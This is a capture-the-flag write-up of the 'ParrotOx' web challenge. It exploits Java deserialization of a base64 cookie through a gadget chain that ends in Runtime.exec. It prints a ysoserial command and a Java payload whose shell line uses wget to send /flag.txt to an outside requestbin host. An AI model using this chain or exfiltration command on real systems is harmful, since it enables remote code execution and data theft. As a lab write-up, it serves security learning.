

# ParrotOx

## Web, 997 points

### Description

All people hate java and I'm not an exception! But it's really found a lot in real life scenarios.

Author: [Fword](https://ctftime.org/team/72251)

### Solution

Java is one of the best programming languages, Java is great, OOP can be marvelous, still, let me tell you a story about some **wrong** Java.

The adventure starts with some online website and its source code. After playing a bit with the website, I understood that I can submit questions and I get my latest question in a `latest_question` cookie encoded in base64. After a while, I dived into the code to hopefully find a vulnerability in a white box kind of audit.

The source code architecture is the following:
```bash
$ tree  parrot  
parrot
├── db
│   ├── a_init.sh
│   └── init.sql
├── docker-compose.yml
├── IndexController.java
├── QuestionController.java
├── Question.java
├── Security.java
└── task
    ├── Dockerfile
    ├── flag.txt
    ├── stackoverctf.jar
    └── start.sh

```

After looking at the `docker-compose.yml` file, which is the Docker configuration to handle multiple containers, I understood that the task folder is relevant to be investigated, as it is the only application, apart from the database, used. Thereby, it should be the source code that serves the hosted website for this challenge.

The `docker-compose.yml`:
```bash
version: "3.8"

services:
  app:
    build:
      context: .
      dockerfile: ./task/Dockerfile
    image: stackoverctf
    ports:
      - "80:8080"
    depends_on:
      - db
    restart: always
  db:
    image: mariadb
#    command: --default-authentication-plugin=mysql_native_password
    environment:
      MYSQL_ROOT_PASSWORD: 'test'
      MYSQL_DATABASE: 'stackctf'
    volumes:
      - ./db:/docker-entrypoint-initdb.d
    restart: always
```

Its `Dockerfile`:

```bash
From openjdk:11

RUN useradd ctf \
    && mkdir /opt/app

COPY ./task/stackoverctf.jar /opt/app
COPY ./task/flag.txt /
COPY ./task/start.sh /opt/app
WORKDIR /opt/app

USER ctf
ENTRYPOINT ["/opt/app/start.sh"]
```

Its `start.sh`:
```bash
#!/bin/bash
while ! exec 6<>/dev/tcp/db/3306; do
    echo "Trying to connect to MySQL..."
    sleep 10
done
exec java -jar /opt/app/stackoverctf.jar
```

And obviously its dummy `flag.txt`:
```txt
FwordCTF{Test}
```

At this point, I had to go deeper and decompile `stackoverctf.jar`. I firstly tried with `jadx`, my Android tool of choice, which didn't make it, thus, I went to [https://jdec.app/](https://jdec.app/) which is a great website.

After reviewing the code, I understood that my entry point is a cookie that stores the latest question. In detail, the cookie's value is the base64 representation of a Java serialized object. Here is a snippet of it from `QuestionController.class`:

```java
[...]
   public String list(@CookieValue(value = "latest_question",defaultValue = "") String latest_question, Model model) {
      if (latest_question.length() == 0) {
         model.addAttribute("latest_question", "No recent question detected");
      } else {
         try {
            byte[] decodedBytes = Base64.getDecoder().decode(latest_question);
            ByteArrayInputStream in = new ByteArrayInputStream(decodedBytes);
            Security inp = new Security(in);
            Question result = null;
            result = (Question)inp.readObject();
            model.addAttribute("latest_question", result.getQuestion());
         } catch (IllegalArgumentException var7) {
            model.addAttribute("latest_question", "An Error has occured");
            var7.printStackTrace();
         } catch (IOException var8) {
            model.addAttribute("latest_question", "An Error has occured");
            var8.printStackTrace();
         } catch (ClassNotFoundException var9) {
            model.addAttribute("latest_question", "An Error has occured");
            var9.printStackTrace();
         }
      }

      return "questions";
   }
[...]
```

Let's dig into this Security class:
```java
public class Security extends ObjectInputStream {
   public Security(InputStream inputStream) throws IOException {
      super(inputStream);
   }
[...]
```

This is a road to Java deserialization exploitation (cf. [ObjectInputStream documentation](https://docs.oracle.com/javase/7/docs/api/java/io/ObjectInputStream.html) and [HackTricks deserialization chapter](https://book.hacktricks.xyz/pentesting-web/deserialization#java-http)) as the `ObjectInputStream` class is used with the `readObject` method without sanitizing the user input. I tried to inject a classic payload with `ysoserial`, in vain:

```bash
$ java -jar ysoserial.jar CommonsCollections5 'cat /flag.txt' | base64 | tr -d '\n' | xclip -selection c
```

Afterwards, I noticed that some Java utils classes are used:



I documented myself with [this Black Hat talk from 2020](https://www.youtube.com/watch?v=MTfE2OgUlKc) and [this master's thesis](https://tinyurl.com/7h2ytxpv) from the University of Oslo written by Sondre Fingann in 2020 about Java deserialization vulnerabilities. From these resources, I discovered Java deserialization classpath attack and `gadgetinspector` which is a Java bytecode analysis tool for finding gadget chains by the Netflix security team. It can be useful in white box attacks, which is my case here. I tried it with the `stackoverctf.jar` then:

```bash
$ java -jar gadget-inspector-all.jar stackoverctf.jar

[...]
java/security/cert/CertificateRevokedException.readObject(Ljava/io/ObjectInputStream;)V (1)
  java/util/Collections$CheckedMap.put(Ljava/lang/Object;Ljava/lang/Object;)Ljava/lang/Object; (1)
  java/util/TreeMap.put(Ljava/lang/Object;Ljava/lang/Object;)Ljava/lang/Object; (0)
  com/fword/utils/UserComparator.compare(Ljava/lang/Object;Ljava/lang/Object;)I (0)
  com/fword/utils/UserComparator.compare(Lcom/fword/utils/User;Lcom/fword/utils/User;)I (0)
  com/fword/utils/UtilityEval.handle(Ljava/lang/Object;)Ljava/lang/Object; (1)
  java/lang/Runtime.exec(Ljava/lang/String;)Ljava/lang/Process; (1)
[...]
```

It can lead me to some `Runtime.exec` by exploiting the `readObject` method from the `ObjectInputStream` class, this is insane! Thus, according to the application code, I crafted my Java exploit code, using the `utils` I highlighted above. The whole script is available [here](./exploit.java). Below is the snippet that contains the payload:

```java
Field privateValue = com.fword.utils.Truncate.class.getDeclaredField("value");
privateValue.setAccessible(true);
// get a shell environment as $() is not executed in Runtime.exec
privateValue.set(Trun, new String("sh -c $@|sh . echo wget http://requestbin.net/r/h1j2dzzb?a=$(cat /flag.txt|base64|tr -d \"\n\")"));
```

I had to take care that `$( )` doesn't get executed in `Runtime.exec`. That's why I added a `sh -c` trick to get a shell like environment.

At last, I load the classes in `com.fword.utils` and launch the exploit to get my malicious payload:
```java
$ javac -cp com/fword/utils:. exploit.java 

$ java -cp com/fword/utils:. Main

Object built successfully!
Object has been serialized
```

```bash
$ cat serialized.obj|base64|tr -d "\n"

[...]
```

I put it in the cookie `latest_question`, then I get the base64 representation of the flag on my requested bin.